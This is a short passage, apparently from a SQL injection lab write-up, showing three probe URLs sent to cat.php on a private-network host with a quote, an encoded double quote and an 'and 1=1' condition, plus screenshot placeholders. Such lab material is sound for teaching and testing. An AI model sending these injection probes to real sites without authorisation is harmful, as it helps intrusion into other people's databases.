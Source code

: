 ```
http://192.168.55.3/cat.php?id=1'
```

![first](image/first.jpg)

```
http://192.168.55.3/cat.php?id=1%22
```

![second](image/second.jpg)

```
http://192.168.55.3/cat.php?id=1%20and%201=1
```
